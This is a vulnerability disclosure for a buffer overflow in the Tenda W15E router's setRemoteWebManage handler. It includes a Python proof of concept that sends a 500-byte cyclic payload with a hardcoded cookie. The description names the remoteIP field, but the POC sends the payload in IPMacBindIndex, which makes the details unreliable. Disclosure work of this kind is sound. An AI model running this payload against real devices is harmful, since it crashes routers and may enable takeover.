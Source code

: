 # W15E buff overflow vulnerability
 
Vendor: Tenda W15E  
Version: US_W15EV1.0br_V15.11.0.7(752_816)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x00098F2C. Ip gets the content of remoteIP and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows:
![image](image/3.png)

POC:
```py
import requests
from pwn import *

url='http://192.168.100.2/goform/setRemoteWebManage'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 ='IPMacBindIndex=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
```
The exploitation is as shown
![image](image/3-use.png)
